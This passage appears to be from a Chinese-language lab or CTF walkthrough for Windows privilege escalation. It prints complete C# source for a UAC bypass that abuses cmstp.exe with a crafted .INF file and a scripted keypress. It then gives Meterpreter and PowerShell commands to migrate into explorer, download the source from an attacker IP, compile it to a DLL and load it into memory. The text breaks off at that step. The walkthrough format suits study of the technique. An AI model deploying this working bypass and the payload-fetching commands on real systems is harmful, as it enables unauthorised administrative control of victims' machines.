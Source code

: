 ```
/* UAC Bypass using CMSTP.exe microsoft binaryBased on previous work from Oddvar Moehttps://oddvar.moe/2017/08/15/research-on-cmstp-exe/And this PowerShell script of Tyler Applebaumhttps://gist.githubusercontent.com/tylerapplebaum/ae8cb38ed8314518d95b2e32a6f0d3f1/raw/3127ba7453a6f6d294cd422386cae1a5a2791d71/UACBypassCMSTP.ps1Code author: Andre Marques (@_zc00l)*/using System;using System.Text;using System.IO;using System.Diagnostics;using System.ComponentModel;using System.Windows;using System.Runtime.InteropServices;public class CMSTPBypass{    // Our .INF file data!    public static string InfData = @"[version]Signature=$chicago$AdvancedINF=2.5[DefaultInstall]CustomDestination=CustInstDestSectionAllUsersRunPreSetupCommands=RunPreSetupCommandsSection[RunPreSetupCommandsSection]; Commands Here will be run Before Setup Begins to installREPLACE_COMMAND_LINEtaskkill /IM cmstp.exe /F[CustInstDestSectionAllUsers]49000,49001=AllUSer_LDIDSection, 7[AllUSer_LDIDSection]""HKLM"", ""SOFTWARE\Microsoft\Windows\CurrentVersion\App Paths\CMMGR32.EXE"", ""ProfileInstallPath"", ""%UnexpectedError%"", """"[Strings]Service;    [DllImport("user32.dll")] public static extern bool ShowWindow(IntPtr hWnd, int nCmdShow);    [DllImport("user32.dll", SetLastError = true)] public static extern bool SetForegroundWindow(IntPtr hWnd);    public static string BinaryPath = "c:\\windows\\system32\\cmstp.exe";    /* Generates a random named .inf file with command to be executed with UAC privileges */    public static string SetInfFile(string CommandToExecute)    {        string RandomFileName = Path.GetRandomFileName().Split(Convert.ToChar("."))[0];        string TemporaryDir = "C:\\windows\\temp";        StringBuilder OutputFile = new StringBuilder();        OutputFile.Append(TemporaryDir);        OutputFile.Append("\\");        OutputFile.Append(RandomFileName);        OutputFile.Append(".inf");        StringBuilder newInfData = new StringBuilder(InfData);        newInfData.Replace("REPLACE_COMMAND_LINE", CommandToExecute);        File.WriteAllText(OutputFile.ToString(), newInfData.ToString());        return OutputFile.ToString();    }    public static bool Execute(string CommandToExecute)    {        if(!File.Exists(BinaryPath))        {            Console.WriteLine("Could not find cmstp.exe binary!");            return false;        }        StringBuilder InfFile = new StringBuilder();        InfFile.Append(SetInfFile(CommandToExecute));        Console.WriteLine("Payload file written to " + InfFile.ToString());        ProcessStartInfo startInfo = new ProcessStartInfo(BinaryPath);        startInfo.Arguments = "/au " + InfFile.ToString();        startInfo.UseShellExecute = false;        Process.Start(startInfo);        IntPtr windowHandle = new IntPtr();        windowHandle = IntPtr.Zero;        do {            windowHandle = SetWindowActive("cmstp");        } while (windowHandle == IntPtr.Zero);        System.Windows.Forms.SendKeys.SendWait("{ENTER}");        return true;    }    public static IntPtr SetWindowActive(string ProcessName)    {        Process[] target = Process.GetProcessesByName(ProcessName);        if(target.Length == 0) return IntPtr.Zero;        target[0].Refresh();        IntPtr WindowHandle = new IntPtr();        WindowHandle = target[0].MainWindowHandle;        if(WindowHandle == IntPtr.Zero) return IntPtr.Zero;        SetForegroundWindow(WindowHandle);        ShowWindow(WindowHandle, 5);        return WindowHandle;    }}
```

查看交互进程`explore.exe`，并将当前进程迁移到对应的进程号中

```
ps -S explore<br style="box-sizing: border-box;">migrate 4824<br style="box-sizing: border-box;">
```

![](https://mmbiz.qpic.cn/mmbiz_png/iar31WKQlTTqQolGUk4Aic4MFYGfibH99aeUMx0k0raWC2s64KccYGtjTzMI9ZbEWickeicKwGAJY8HFVZSpQgDcQpw/640?wx_fmt=png)将上面的 C-Sharp 源码命名为 Source.cs，通过 powershell 编译为 dll 文件

```
load powershellpowershell_shellcd \Users\Batman\appdata\local\temp\iwr -uri 10.10.14.14/Source.cs -outfile Source.csAdd-Type -TypeDefinition ([IO.File]::ReadAllText("$pwd\Source.cs")) -ReferencedAssemblies "System.Windows.Forms" -OutputAssembly "CMSTP-UAC-Bypass.dll"
```

![](https://mmbiz.qpic.cn/mmbiz_png/iar31WKQlTTqQolGUk4Aic4MFYGfibH99aemG64ImKpXHMC2grguCBNqTjM0WLPdueIIX3O9aEUYrA6Ciaee1AX09g/640?wx_fmt=png)将该 dll 加载到内存中
